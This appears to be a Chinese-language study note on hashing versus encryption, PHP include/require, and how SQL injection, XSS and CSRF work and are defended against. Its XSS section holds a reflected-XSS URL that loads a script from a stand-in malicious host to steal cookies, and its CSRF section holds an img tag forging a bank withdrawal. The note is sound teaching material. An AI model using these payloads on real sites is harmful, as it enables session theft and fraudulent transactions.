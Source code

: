 ## 請說明雜湊跟加密的差別在哪裡，為什麼密碼要雜湊過後才存入資料庫

> 講到雜湊跟加密，就順便連編碼一起講。演進史大概是：編碼 -> 加密 -> 雜湊。

* 編碼 (Encoding)：不會修改資料，也沒有加密效果，乍看之下很難懂，但只要知道轉換規則就可以破譯，實際上就是換個方式來表達資料。例如：摩斯密碼，是利用點 (短聲) 跟劃 (長聲) 所編碼。

* 加密 (Encrypt)：跟編碼有點像，但多了一個「金鑰」 (Key) ，加密跟解密要有金鑰才能進行，。例如：凱薩加密，以英文字母的偏移進行加密，而偏移量就是金鑰，金鑰是加密者自行決定的。

* 雜湊 (Hash)：把明碼的各個字元套用某個公式計算，過程可能會做各種加減乘除，最後算出一個值或字串，這個計算公式稱為「雜湊函數」(Hash function)。雜湊具有不可逆和多對一的特點。

=> 若是密碼存的明碼，一旦伺服器被駭客入侵，就會直接被偷走密碼了，因此要對密碼進行雜湊，轉換成另一種樣子。而之所以使用雜湊，原因是對比加密或編碼而言，雜湊有一個特點，就是無法逆推原明碼。當然現在有所謂的彩虹表，所以雜湊也不見得是安全的，更進一步的方法就是再多加一道步驟，雜湊 + 加鹽，而這又更複雜了。


---


## `include`、`require`、`include_once`、`require_once` 的差別

`include`、`require`、`include_once`、`require_once` 都是屬於可以直接引用外部檔案的函式。

`include` ：將指定的文件讀入並且執行裡面的程序。
`require` ：將指定的文件讀入，並把自己本身代換成這些讀入的內容，也就是說引入的文件內容為主程式的一部份。
`include_once` ：和 `include` 類似，區別是 PHP 會檢查該文件是否已經被讀入過，如果是則不會再次讀入，只會讀入一次 `once`。
`require_once` ：和 `require` 類似，區別是 PHP 會檢查該文件是否已經被讀入過，如果是則不會再次讀入，只會讀入一次 `once`。

=> 是不是 once：可以防止重複引入檔案時，造成多次重覆讀取而使得常數或自訂函數被重複定義的情形。
=> once 因為會多一個先判斷此文件存不存在，所以以效率而言較低。

`include` 和 `require` 的區別：
1. 若讀入的文件有錯誤，`include` 會產生警告訊息但是腳本會繼續執行； `require` 也會產生警告訊息但會直接停止腳本執行。
2. `include()` 是有條件包含函數； `require()` 是無條件包含函數。如以下舉例的程式碼：
```
if($something){ 
	include("somefile1");
	require("somefile2"); }

```
若 $something === false，`include("somefile1")` 便不會執行，但 `require("somefile2")` 仍會執行。


---


## 請說明 SQL Injection 的攻擊原理以及防範方法

原理：跟資料庫相關的一種攻擊方法，藉由 input 特殊形態的內容，使得電腦在理解上讓 input 變成後端程式碼的一部份，來改變整條程式碼的原意。

防範方法 -- 意識前提「不要輕易相信使用者輸入的資料」。
1. 對於 input 的資料進行驗證，例如檢查資料長度、檢查資料格式、限制輸入的某些字元 ......。
2. 使用 Regular expression ( 使用單個字串來描述一系列符合某個句法規則的字串 ) 來過濾輸入值，對於可能造成惡意程式碼的特殊字符進行轉譯處理或編碼轉換。
3. 使用參數化查詢而非動態組合查詢，也就是老師教的程式碼方法，目前被視為最有效可預防 SQL Injection 的防禦方式。
4. 使用不容易被猜到的資料表名稱和欄位名稱。
5. 設定合適的錯誤處理，可避免洩漏過多的資訊。
6. 進行權限處理，限制某些管道的使用者無法作資料庫存取。


---


##  請說明 XSS 的攻擊原理以及防範方法

原理：cross site scripting ，和 SQL Injection 有異曲同工之妙，也是讓輸入變成程式碼的一部份，攻擊者主要是利用某些特殊語法，規避掉字元的規則，藉此輸入 JS 的 script tag 的惡意指令代碼到網頁，在不知情的情況下，使用者可能就會載入並執行攻擊者惡意製造的網頁程式。

XSS攻擊的常見目的有 -- 
1. 盜用 cookie ，藉以取得使用者資訊。
2. 利用 iframe、frame、XMLHttpRequest 或 植入 Flash 等方式，冒充使用者身分執行一些動作。
3. 在瀏覽量大的網站放置 XSS ，達到 DOS 攻擊的效果。......

XSS 可分成三種常見的類型 -- Stored、Reflected、DOM Based。
1. Stored XSS，儲存型。顧名思義就是將 JavaScript 程式碼儲存在後端資料庫裡。若使用者輸入 `<script> alert('This is an attack!')</script>`，如果應用沒有做好字串的解析與特殊字元的防範，當這段 script 從資料庫被抓出來顯示，瀏覽器就會解讀成為一串 JS 的程式碼。
2. Reflected XSS，反射型。攻擊方式為將 script 藏在 URL 中，透過 GET 參數傳遞。如 `http://localhost:8080/reflected-xss-demos/?username='><script src='http://malicious-site.com/malicious.js'></script><a href='`， malicious.js 可能是盜取帳號密碼、盜取 cookie 等惡意操作。而為了不讓 URL 這麼一目瞭然的可疑，通常會經過 URL encoding 或是短網址來潤飾。攻擊者通常會透過將 URL 放到留言板或是廣告信件來誘導使用者點擊。
3. DOM Based XSS，或是 Type-0 XSS。網頁上的 JavaScript 在執行過程中，沒有詳細檢查資料使得操作 DOM 的過程代入了惡意指令。和前兩者最主要的差異為，Stored 和 Reflected 的攻擊，屬於 server side ( 服務端 )的安全漏洞；而 DOM Based XSS 取出和執行惡意代碼由 client side ( 瀏覽器端 ) 完成，屬於前端 JavaScript 自身的安全漏洞，因此前兩者需要在 server side 防範，DOM Based 則需要在 client side 防範。DOM Based XSS 因為惡意程式碼也是由 client side 輸入的，攻擊者不可能到使用者的電腦前親自輸入，因此 DOM Based XSS 通常需要搭配前兩種攻擊。

防範方法 --
Stored、Reflected：由後端進行防範。
1. 輸入時的防範，過濾特殊字元，除了 JavaScript 以外，URL 、 HTML 、 CSS 、 XML 也能作手腳。但一般而言，存在資料庫的還是希望會是原始內容，因此會在輸出的時候做防範。但輸入作防範也可多一層防禦。
2. 輸出時的防範，例如 -- PHP 的 htmlentities() 或 htmlspecialchars() 、 Python 的 cgi.escape() 。
DOM-Based：由前端來防範，但基本上還是跟後端防範的原則相同。
1. 強行指定輸出內容的格式，可指定輸出內容為文字或 html 或 JavaScript。例如若一個網頁藉由 JS 動態插入的內容只是要純文字，那麼與其使用 `document.getElementById('show_something').innerHTML = $something`，不如使用`document.getElementById('show_something').innerText = $something`，這樣一來，使用 `innerText` 會被保證為純文字，就不可能被插入惡意代碼了。

=> 總之就是注意一切的輸入跟輸出啦 www


---


## 請說明 CSRF 的攻擊原理以及防範方法

原理：Cross Site Request Forgery，或稱 one-click attack 。不同於 XSS 利用的是使用者對網站的信任，CSRF 利用的是網站對使用者「瀏覽器」的信任，也就是利用瀏覽器的 cookie 機制來製造攻擊機會。攻擊者不能透過 CSRF 攻擊獲取被攻擊者的帳戶，也不能竊取使用者的個人資訊，但卻可以欺騙瀏覽器，讓瀏覽器以為某些行為是使用者本人的操作行為。
例如：某家網銀轉帳的跳轉 URL 長這樣 https://kylemobank.com/withdraw?account=you&amount=1000&for=harry；同一時刻，你無意中點開了攻擊者的惡意網頁，其中有一個代碼長這樣 <img src="https://bank.example.com/withdraw?account=you&amount=1000000&for=badguy" />，而你的 cookie 又剛好還沒過期，於是在不知情的情況下就轉帳了一百萬給壞人了 !!! ( 當然這是很單純的舉例而已，但就能知道 SCRF 有多可怕 ! )

防範方法 --
使用者方面：但主要還是應該由 server side 防範。
1. 每次使用完網站就登出，不要讓 cookie 存著。
2. 關閉執行 JavaScript，或過濾掉某些程式碼不要執行，例如 `<form>` 、 `<img>` 、 `<script>` 、 `<iframe>` ...... 常被惡意使用的程式碼。 => 不過這應該比較難啦，會不方便。

server side：
1. 檢查 request header 裡面的 referer 欄位，看看是不是合法的 domain 發來的 request。此方法注意點有三，第一、有些瀏覽器不會帶 referer；第二、使用者可能會關掉自動帶 referer 的功能；第三、檢查 referer 的程式碼是否可行。
2. 加上圖形驗證、簡訊驗證機制。
3. 加上 CSRF token：在 form 裡面加上一個 hidden 的欄位，值由 server 隨機產生，並且存在 server 的 session 中。
4. Double Submit Cookie：此解法和 CSRF token 雷同，不同於，不把這個值寫在 server session ，而是讓 client side 同時設定一個名叫 token 的 cookie，值也是同一組。原理在於，CSRF request 來自於不同 domain，真正使用者的 request 是同一個 domain，因此只要能分辨 domain 是否相同便可以。此方法也有缺點，攻擊者或許可以透過子域建立同 domain 的 cookie，又或是中間攻擊這個 request( 我不清楚怎麼攻擊 ... )。
5. SameSite Cookie：屬於瀏覽器本身的防禦，Google 在 Chrome 51 版推出此功能。在原本設置 Cookie 的 header 後加上 `SameSite` 就行，有兩種模式，一種加上 `SameSite=Strict`，只要瀏覽器驗證不是在同一個 site 底下發出的 request，都不會帶上 cookie；另一種加上 `SameSite=Lax`，保有部分彈性，GET method 的 request 還是會帶上 cookie，但是 POST、DELETE、PUT method 便不會帶上。

